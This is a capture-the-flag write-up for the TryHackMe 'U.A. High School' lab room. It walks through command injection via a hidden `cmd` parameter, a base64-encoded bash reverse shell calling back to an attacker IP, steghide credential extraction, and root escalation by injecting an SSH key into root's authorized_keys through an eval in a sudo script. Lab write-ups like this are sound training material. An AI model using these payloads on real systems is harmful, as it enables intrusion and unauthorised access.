 ```yaml
---
title: 'U.A. High School'
description: 'RCE through a hidden command injection parameter, finding credetials with steghide on an image and privilege escalation through a bash script with sudo permissions'
pubDate: 2024-08-25
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/11c2b861cb1add6468a32d0be7b26b44.png'
---
```


The pages all appear to be static HTML, also the contact form doesn't post anywhere.
I noticed at some point that a `PHPSESSID` cookie was set, it seems that this is the only part that is dynamic.

Messing around with it I luckily guessed some hidden functionality.

Doing a GET on this path with the `cmd` param seems to execute the given value, for example:

```
GET /assets/?cmd=id HTTP/1.1
...[snip]...
```

Returns:
```
...[snip]...
Set-Cookie: PHPSESSID=kjnnvdtmnva7bdobv6murgdkrv; path=/
...[snip]...
Content-Type: text/html; charset=UTF-8

dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK
```

The base64 string is the value from the `id` command.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now to get a shell we can use this GET request:

```
GET /assets/?cmd=echo+YmFzaCAgIC1pID4mIC9kZXYvdGNwLzEwLjguMTE5LjEzNy80NDQ0IDA%2bJjEK|base64+-d|bash
...[snip]...
```

## USER

If we look around in the `/var/www` folder we find some interesting things, first there is a `Hidden_Content` folder with a passphrase file in it:

```bash
cat /var/www/Hidden_Content/passphrase.txt | base64 -d
AllmightForEver!!!
```

There is also a 'broken' image in the `/var/www/html/assets/images` folder, it appears to be broken but lets get it and check it out.

```bash
wget http://10.10.98.57/assets/images/oneforall.jpg
```

I suspect this has some Stego, so lets run `steghide` on the file

```bash
steghide info oneforall.jpg
steghide: the file format of the file "oneforall.jpg" is not supported.
```

When opening the file in a text or hexeditor we see that it has the magic bytes for a PNG but it has the JPG extension.

If we edit the `oneforall.jpg` in an hexeditor to match the the first 3 blocks with the other JPG file (`yuei.jpg`) we can actually view the JPG file.

The first 3 blocks should be: `FF D8 FF E0  00 10 4A 46  49 46 00 01`.

Now lets check `steghide` again:

```bash
steghide info oneforall.jpg -p 'AllmightForEver!!!'
"oneforall-mod.jpg":
  format: jpeg
  capacity: 5.4 KB
  embedded file "creds.txt":
    size: 150.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

Lets extract the `creds.txt` file:

```bash
steghide extract -sf oneforall-mod.jpg -p 'AllmightForEver!!!'
wrote extracted data to "creds.txt".
```

In the `creds.txt` file we find the credentials for the `deku` user. We can use these credentials to SSH in to the target:

```
deku:One?For?All_!!one1/A
```

## ROOT

When we check our sudo permissions we find an interesting file:

```bash
sudo -l
[sudo] password for deku:
Matching Defaults entries for deku on myheroacademia:
...[snip]...
    (ALL) /opt/NewComponent/feedback.sh
```

The `feedback.sh` script is filtering out a lot of special characters, but one that is missing is the forward slash (`/`).

`feedback.sh` file:
```bash
...[snip]...
if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```

So we can make use of the scripts `echo` command and add our public SSH key to the `authorized_keys`.

Generate a small SSH key:
```bash
ssh-keygen -t ed25519 -f ex-it
...[snip]...
cat ex-it.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP8KXWD7ITYKV1vrlwqUuYwFOMZPkDApztK8c1uhWSdc ex-it@kali
```

Injecting it into the script:
```bash
sudo /opt/NewComponent/feedback.sh
Hello, Welcome to the Report Form
This is a way to report various problems
    Developed by
        The Technical Department of U.A.
Enter your feedback:
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP8KXWD7ITYKV1vrlwqUuYwFOMZPkDApztK8c1uhWSdc ex-it@kali >> /root/.ssh/authorized_keys
It is This:
Feedback successfully saved.
```

Now we can SSH as root in to the target.

```bash
ssh -i root root@10.10.98.57
```
